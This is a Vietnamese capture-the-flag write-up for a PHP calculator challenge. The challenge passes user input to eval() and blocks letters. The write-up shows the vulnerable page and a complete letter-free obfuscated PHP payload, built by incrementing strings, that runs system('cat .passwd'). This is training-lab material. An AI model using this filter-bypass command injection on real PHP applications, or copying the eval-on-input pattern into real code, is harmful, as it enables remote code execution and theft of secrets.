

# PHP - Eval

- Trong bài này có 1 hàm cho nhập các phép toán để tính toán và trả ra kết quả


- Phân tích đoạn code được cung cấp => đoạn code dùng hàm eval() để in ra kết quả tính toán những gì người dùng nhập vào. Input người dùng nhập vào đã bị chặn các chữ cái a-zA-Z => chỉ nhập được số và các kí tự đặc biệt => suy nghĩ đến PHP fuck xor các kí tự đặc biệt để tạo ra các chữ cái. Ở đây chúng ta sẽ dùng cộng chuỗi để tạo ra payload system("cat .passwd");

```php
<html>
<head>
</head>
<body>
 
<h4> PHP Calc </h4>
 
<form action='index.php' method='post'>
    <input type='text' id='input' name='input' />
    <input type='submit' />
<?php
 
if (isset($_POST['input'])) {
    if(!preg_match('/[a-zA-Z`]/', $_POST['input'])){
        print '<fieldset><legend>Result</legend>';
        eval('print '.$_POST['input'].";");
        print '</fieldset>';
    }
    else
        echo "<p>Dangerous code detected</p>";
}
?>
</form>
</body>
</html>
```

- mục tiêu là đọc flag trong .passwd => dùng câu lệnh `cat .passwd`. Nhưng trong đoạn code này chặn các chữ cái => cần phải có biện pháp obfuscate để có thể đọc flag mà không cần phải dùng đến các kí tự chữ cái
- tạo 1 webshell `(cat .passwd)` obfuscate với dạng sau không chứa chữ với dạng sau: 

```php
<?php 
$_=[];
$_=@"$_"; 
$_=$_['!'=='@']; ;
$___=$_; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__; 
$__ = $_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__; 
$___.=$__; 
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$___.=$__;
$__=$_;

$_____ = '';
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$_____.=$__;
$__=$_;

$____='';
++$__;++$__;
$____.=$__;
$__=$_;
$____.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$____.=$__;
$__=$_;

$______='.';
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$______.=$__;
$__=$_;
++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__;++$__; 
$______.=$__;
$__=$_;
++$__;++$__;++$__;
$______.=$__;
$__=$_;
$__________ = $____." ".$______ ;
$___($_____($__________ ))
?>
```
